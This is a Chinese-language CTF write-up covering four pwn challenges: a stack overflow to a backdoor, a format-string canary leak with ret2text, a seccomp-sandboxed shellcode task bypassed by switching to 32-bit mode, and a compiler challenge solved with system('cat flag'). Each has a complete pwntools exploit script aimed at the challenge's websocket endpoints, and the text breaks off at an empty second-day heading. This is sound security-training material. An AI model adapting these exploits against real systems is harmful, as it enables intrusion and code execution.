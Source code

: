CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
	p = process('./ezpwn')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

ret = 0x40101a
backdoors = 0x401539
key = b'astrobot'
p.recvuntil(b'\x21\x0a')
p.send(key)
p.recvuntil(b'something:')
payload = b'A' * 0x58 + p64(ret) + p64(backdoors)
p.sendline(payload)
p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor，开启了canary，有格式化字符串漏洞，可以用该漏洞泄漏canary。
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入第二步，第二步则是简单的ret2text。
第一步用格式化字符串漏洞修改0x404068的值为0x56785678即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./fmt_str')
	pwnlib.gdb.attach(p, 'b *0x40127b')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f07e-58cc-74dd-b653-4657c29d274e')  

backdoor = 0x4013df
change_addr = 0x404068
ret = 0x40101a

p.sendlineafter(b'Input:', b'%25$p')
p.recvuntil(b'0x')
canary = int(p.recv(16), 16)
log.info(f'canary: {hex(canary)}')

payload = fmtstr_payload(8, {change_addr: 0x56785678}, write_size='byte')
p.sendlineafter(b'Input:', payload)
p.recvuntil(b'first step!')

payload2 = b'a' * 0x88 + p64(canary) + b'b' * 8 + p64(ret) + p64(backdoor)
p.sendline(payload2)

p.interactive()
```
shell:
![[Pasted image 20250210233359.png]]
## shellcode
![[Pasted image 20250210233720.png]]
可以看到是一个开启了sandbox的shellcode题。
![[Pasted image 20250210233928.png]]
sandbox仅允许使用rw,可以看到是缺o的，该怎么办呢，搜索后发现fstat函数的系统调用0x5是32位的open函数的系统调用，所以思路就是用mmap开辟一个新的空间来存放一段32位的程序然后在里面调用32位的open，然后再切换回64位调用read和write函数。
exp:
```python
from pwn import *
from wstube import websocket

# context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./shellcode')
	pwnlib.gdb.attach(p, 'b printf')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194f082-499c-7e79-aaec-7f4576faa685')

elf = ELF('./shellcode')
buf = elf.bss()
print(hex(buf))

shellcode = '''
	/* 恢复rsp */
	mov rsp, rdx
	add sp, 0x100
	
	/* mmap(0x40404040, 0x7e, 7, 34, 0, 0) */
	/* 一定要搞清楚哪个寄存器存哪个参数，不然怎么错的都不知道 */
	mov rdi, 0x40404040
	mov rsi, 0x7e
	mov rdx, 7
	mov rax, 9
	mov r8, 0
	mov r9, 0
	mov r10, 34
	syscall
	
	/* read(0, 0x40404040, 0x100) */
	mov rdi, 0
	mov rsi, 0x40404040
	mov rdx, 0x100
	mov rax, 0
	syscall
	
	/* mode_64 -> mode_32 */
	push 0x23
	push 0x40404040
	retfq
'''

shellcode_x86 = '''
	mov esp, 0x40404140
	push 0x67616c66
	push esp
	pop ebx
	xor ecx, ecx
	mov eax, 5
	int 0x80
	mov ecx, eax
'''
shellcode_flag = '''
	push 0x33
	push 0x40404089
	retfq
	
	mov rdi, rcx
	mov rsi, rsp
	mov rdx, 0x70
	xor rax, rax
	syscall
	
	mov rdi, 1
	mov rax, 1
	syscall
'''
shellcode = asm(shellcode, arch='amd64', os='linux')
shellcode_flag = asm(shellcode_flag, arch='amd64', os='linux')
shellcode_x86 = asm(shellcode_x86)
p.sendlineafter('shellcode:', shellcode)
pause()
p.sendline(shellcode_x86 + 0x29 * b'\x90' + shellcode_flag)

p.interactive()
```
shell:
![[Pasted image 20250210233827.png]]
## walt改造的编译器
是一个自制的编译器，编译后有一千多行代码不好逐行分析，大致作用就是输入一段c的代码然后会编译他并运行，我们直接输入
```c
int main()
{
	system("cat flag");
	return 0;
}
```
即可。题目只是看着唬人。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
if local:
	p = process('./walt')
	pwnlib.gdb.attach(p, 'b puts')
else:
	p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194ef0d-e305-79ab-b861-72f478ac41cf')

test = r'''int main(){system("cat flag");return 0;}'''

# p.recvuntil(b'This is crazy!!!')
p.sendline(test)

p.interactive()
```
shell:
![[Pasted image 20250210234818.png]]

# D2
## 